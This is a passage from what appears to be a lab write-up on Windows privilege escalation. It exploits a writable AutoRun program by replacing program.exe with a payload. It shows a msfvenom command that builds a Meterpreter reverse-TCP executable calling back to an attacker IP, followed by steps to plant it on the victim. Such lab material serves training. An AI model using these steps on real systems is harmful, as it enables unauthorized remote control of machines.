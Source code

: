 
##### Exploitation
Now that we have detected the vulnerability, we can exploit it by replacing the program.exe with a reverse shell. 

First of all, we create a listener by using metasploit:
![Msf_multihandler_conf](/assets/img/posts/windows-privesc/task4/msf_multihandle.png)

Then, we generate the payload with our reverse shell:
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.8.80.159 -f exe -o program.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: program.exe
```

We must copy the evil payload in the victim machine (we can upload the file by using a python server or FTP or whatever you want).

And we move the program.exe in the folder **C:\Program Files\AutoRun Program**:
![Move program.exe](/assets/img/posts/windows-privesc/task4/move_program)
